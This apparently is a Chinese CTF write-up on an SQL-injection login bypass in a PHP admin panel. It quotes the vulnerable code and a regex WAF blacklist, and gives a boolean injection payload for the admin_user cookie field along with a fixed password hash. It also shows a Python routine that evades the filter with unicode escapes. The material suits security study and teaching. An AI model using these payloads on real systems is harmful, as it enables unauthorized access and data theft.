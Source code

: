 可以看到

```
$udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
if ($udata['username'] == '') {
    setcookie("islogin", "", time() - 604800);
    setcookie("login_data", "", time() - 604800);
}
$admin_pass = sha1($udata['password'] . LOGIN_KEY);
```

如果\$udata从数据库中没有找到任何值，那么\$udata['password']就是null，这样\$admin_pass就等于`sha1(LOGIN_KEY)`也就是:`3aa526bed244d14a09ddcc49ba36684866ec7661`

waf.php:

```
function waf($string)
{
    $blacklist = '/union|ascii|mid|left|greatest|least|substr|sleep|or|benark|like|regexp|if|=|-|<|>|\#|\s/i';
    return preg_replace_callback($blacklist, function ($match) {
        return '@' . $match[0] . '@';
    }, $string);
}
```

这样，就过滤了`information`。可以使用`mysql.innodb_table_stats`绕过。

所以可以构造如下payload，sql语句能够成功读到admin的记录时，由于密码不对，将无法登录成功。当sql语句无法读到admin的记录时，就可以成功登录，这样便可以进行bool注入。

```
{"admin_user":"admin'&&right((select(@@secure_file_priv)),%d)in(%s)&&\'1","admin_pass":"3aa526bed244d14a09ddcc49ba36684866ec7661"}
```

可是，想到获得数据表名，便需要`information_schema`，但是`or`被过滤了。

可以看到,

`$login_data = json_decode($_COOKIE['login_data'], true);`

这一行，在过滤之后才执行，所以可以通过编码绕过。`json_decode`会进行解码操作。

```
    payload = payload.replace('u', 'u0075')
    payload = payload.replace('o', 'u006f')
    payload = payload.replace('i', 'u0069')
    payload = payload.replace(''', 'u0027')
    payload = payload.replace('"', 'u0022')
    payload = payload.replace(' ', 'u0020')
    payload = payload.replace('s', 'u0073')
    payload = payload.replace('#', 'u0023')
    payload = payload.replace('>', 'u003e')
    payload = payload.replace('<', 'u003c')
    payload = payload.replace('-', 'u002d')
    payload = payload.replace('=', 'u003d')
```
